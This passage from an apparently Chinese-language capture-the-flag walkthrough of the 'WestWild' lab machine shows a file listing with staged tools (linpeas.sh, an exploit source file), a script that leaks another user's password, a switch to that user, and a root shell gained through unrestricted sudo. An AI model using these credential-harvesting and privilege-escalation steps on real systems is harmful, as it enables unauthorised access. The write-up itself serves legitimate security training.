   ```
  /usr/share/av/westsidesecret/ififoregt.sh
  /home/wavex/.gnupg/trustdb.gpg
  /home/wavex/.gnupg/pubring.gpg
  /home/wavex/.gnupg/gpg.conf
  /home/wavex/.cache/motd.legal-displayed
  /home/wavex/wave/FLAG1.txt
  /home/wavex/wave/message_from_aveng.txt
  /home/wavex/.profile
  /home/wavex/.bashrc
  /home/wavex/.viminfo
  /home/wavex/.bash_logout
  /tmp/linpeas.sh
  /tmp/41458.c
  /tmp/l.sh
  /tmp/rh.sh
  wavex@WestWild:~$ cat /usr/share/av/westsidesecret/ififoregt.sh
   #!/bin/bash 
   figlet "if i foregt so this my way"
   echo "user:aveng"
   echo "password:kaizen+80"
   
  
  wavex@WestWild:~$ 
  ```

- 切换到aveng用户-->当前用户已经拥有root权限

- ```shell
  wavex@WestWild:~$ su aveng
  Password: 
  aveng@WestWild:/home/wavex$ sudo -l
  [sudo] password for aveng: 
  Matching Defaults entries for aveng on WestWild:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User aveng may run the following commands on WestWild:
      (ALL : ALL) ALL
  aveng@WestWild:/home/wavex$ sudo /bin/bash
  root@WestWild:/home/wavex# whoami
  root
  root@WestWild:/home/wavex# ip a
  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
      link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
      inet 127.0.0.1/8 scope host lo
         valid_lft forever preferred_lft forever
      inet6 ::1/128 scope host 
         valid_lft forever preferred_lft forever
  2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
      link/ether 00:0c:29:02:1d:c6 brd ff:ff:ff:ff:ff:ff
      inet 192.168.2.13/24 brd 192.168.2.255 scope global eth0
         valid_lft forever preferred_lft forever
      inet6 fe80::20c:29ff:fe02:1dc6/64 scope link 
         valid_lft forever preferred_lft forever
  root@WestWild:/home/wavex# uname -a
  Linux WestWild 4.4.0-142-generic #168~14.04.1-Ubuntu SMP Sat Jan 19 11:28:33 UTC 2019 i686 i686 i686 GNU/Linux
  root@WestWild:/home/wavex# cd ~
  root@WestWild:~# ls -lhai
  total 28K
  69176 dr-xr-xr-x 3 aveng aveng 4.0K Aug  2  2019 .
   7684 drwxr-xr-x 4 root  root  4.0K Jul 30  2019 ..
  13771 -rw-r--r-- 1 aveng aveng  220 Jul 30  2019 .bash_logout